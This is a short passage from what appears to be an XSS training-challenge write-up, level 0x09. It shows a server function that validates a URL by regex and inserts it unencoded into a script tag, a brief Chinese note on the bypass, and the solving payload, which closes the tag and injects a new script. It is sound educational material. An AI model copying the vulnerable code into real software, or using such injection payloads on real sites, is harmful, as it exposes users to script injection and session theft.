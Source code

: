 ![008](/img/xss/haozi/008.png)

# 0x09

## server code:

```
function render (input) {
  let domainRe = /^https?:\/\/www\.segmentfault\.com/
  if (domainRe.test(input)) {
    return `<script src="${input}"></script>`
  }
  return 'Invalid URL'
}
```

## 分析:

```
用正则表达式匹配'https(http)://www.segmentfault.com',构造闭合即可。
```

## input code:

```
1. 
https://www.segmentfault.com"></script><script>alert(1)</script>

```
